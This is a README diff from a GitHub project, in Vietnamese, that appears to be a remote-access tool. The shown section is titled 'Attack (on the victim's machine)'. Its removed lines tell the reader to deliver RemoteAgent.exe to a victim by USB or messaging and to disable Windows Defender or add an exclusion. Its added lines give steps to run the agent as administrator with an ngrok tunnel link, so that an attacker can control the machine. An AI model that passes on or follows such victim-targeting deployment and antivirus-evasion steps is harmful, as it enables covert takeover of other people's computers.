

Before and after one commit to VoMinhKhang2210/RemoteControl, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Cap nhap readme run as admin

````diff
--- a/README.md
+++ b/README.md
@@ -88,24 +88,18 @@ RemoteControl/
     3.Lấy hàng: Truy cập vào thư mục sau để lấy file: RemoteAgent\bin\Release\net6.0\win-x64\publish\ 👉 Bạn sẽ thấy file RemoteAgent.exe (Dung lượng khoảng ~60MB).
 ### 📍 Bước 3: Tấn công (Trên máy nạn nhân)
 
-    1. Gửi file: Copy file RemoteAgent.exe (vừa lấy ở Bước 2) sang máy nạn nhân (qua USB, Drive, Zalo...).
+   1. **Copy đường dẫn thư mục:** Vào thư mục chứa file `RemoteAgent.exe`, bấm vào thanh địa chỉ ở trên cùng và copy đường dẫn.
 
-    2. ⚠️ Lưu ý quan trọng:
+   2. **Mở PowerShell Admin:**
+       - Nhấn phím **Windows**, gõ chữ `powershell`.
+       - Chọn **"Run as Administrator"** bên tay phải.
 
-        *Vì là tool điều khiển từ xa, Windows Defender có thể sẽ chặn file.
+   3. **Di chuyển vào thư mục:**
+       - Gõ lệnh: `cd "dán-đường-dẫn-vừa-copy-vào-đây"` rồi Enter.
 
-        *Cần tắt Real-time protection hoặc thêm file vào danh sách loại trừ (Exclusions) trước khi chạy.
-
-    3.Chạy file:
-
-        *Nhấn chuột phải vào khoảng trống trong thư mục chứa file, chọn "Open in Terminal" (hoặc mở CMD Admin).
-
-        *Gõ lệnh kết nối:
-
-            PowerShell
-
-            .\RemoteAgent.exe <link-ngrok-của-bạn>
-                Ví dụ: .\RemoteAgent.exe https://abc123xyz.ngrok-free.app
+   4. **Chạy lệnh kết nối:**
+       ```powershell
+       .\RemoteAgent.exe <link-ngrok-của-bạn>
 
 ### Bước 6: Mở giao diện điều khiển
 
````
